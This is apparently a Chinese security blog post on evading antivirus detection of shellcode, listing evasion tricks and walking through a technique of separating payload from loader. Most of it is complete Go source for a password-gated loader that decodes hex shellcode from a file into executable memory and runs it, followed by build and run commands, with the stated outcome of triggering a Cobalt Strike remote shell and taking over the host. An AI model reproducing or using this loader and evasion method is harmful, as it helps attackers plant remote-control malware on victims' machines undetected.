 ```yaml
---
layout: post
title: " 【原创】ShellCode免杀的骚姿势"
date: "2022-05-05T13:36:36.777Z"
---
```

【原创】ShellCode免杀的骚姿势
===================

ShellCode免杀的骚姿势
---------------

    常见的免杀手法：
    
    shellcode(攻击代码)和加载程序的分离；
    Lolbins白利用加载shellcode（白名单利用）；
    shellcode混淆、编码解码；
    

### shellcode(攻击代码)和加载程序的分离

生成一个C语言的playload做测试实验；

![image-20220505101255117](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413646-1411703289.png)

本质上生成c的payload就是16进制的代码，这些代码插入目标主机的内存中，就能触发CS远控；

![image-20220505101650083](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413623-774519040.png)

这里我们在来看下官方的定义；

    shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令。
    

但shellcode类似于图纸，本身并不能进行执行，必须要配合加载器才能进行使用，所以一般杀软不会杀shellcode；exe文件就是shellcode+加载器一起集成了，容易被查杀；

单独的加载器可以使用go-shellcode-launcher

    package main
    
    import (
    	"io/ioutil"
    	"os"
    	"syscall"
    	"unsafe"
    	"strings"
    	"fmt"
    	"encoding/hex"
    	"crypto/md5"
    )
    
    const (
    	MEM_COMMIT             = 0x1000
    	MEM_RESERVE            = 0x2000
    	PAGE_EXECUTE_READWRITE = 0x40
    )
    var (
    	kernel32       = syscall.MustLoadDLL("kernel32.dll")
    	ntdll          = syscall.MustLoadDLL("ntdll.dll")
    	VirtualAlloc   = kernel32.MustFindProc("VirtualAlloc")
    	RtlCopyMemory  = ntdll.MustFindProc("RtlCopyMemory")
    	)
    
    func checkErr(err error) {
    	if err != nil {
    		if err.Error() != "The operation completed successfully." {
    			println(err.Error())
    			os.Exit(1)
    		}
    	}
    }
    func main() {
    
    
    	if len(os.Args) <= 2 {
    		os.Exit(0)
    	}
    
    	//var shellcodes string
    	var shellcode []byte
    
    	if len(os.Args) > 2 {
    		data := []byte(os.Args[1])
    		has := md5.Sum(data)
    		md5str1 := fmt.Sprintf("%x", has) //将[]byte转成16进制
    		if (md5str1) != "81592ae4e09eb3dfb96aaecbf84730d0" {
    			//第一个参数只有是 bobohacker 才能跑起
    			os.Exit(0)
    		}
    
    		if fileObj, err := os.Open(os.Args[2]); err == nil {
    			//第二个参数为放shellcode的txt文件名
    			defer fileObj.Close()
    			if contents, err := ioutil.ReadAll(fileObj); err == nil {
    				shellcodes := strings.ReplaceAll(string(contents), "\n", "")
    				shellcodes = strings.ReplaceAll(string(shellcodes), "\\x", "")
    				shellcode, _ = hex.DecodeString(shellcodes)
    			}
    
    		}
    	}
    	addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
    	if addr == 0 {
    		checkErr(err)
    	}
    	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
    	checkErr(err)
    	syscall.Syscall(addr, 0, 0, 0, 0)
    }
    
    

继续生成payload123.c，然后将payload的内容复制出来，放在bobo.txt中

![image-20220505125100039](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413733-376067569.png)

将go的文件编译成exe文件

    go build golauncher.go
    

然在目录下执行

    golauncher.exe bobohacker bobo.txt
    其中的bobohacker是密码；
    

![image-20220505125409943](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413647-357892171.png)

然后就触发shell，拿下主机；

![image-20220505133918728](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413676-1660918650.png)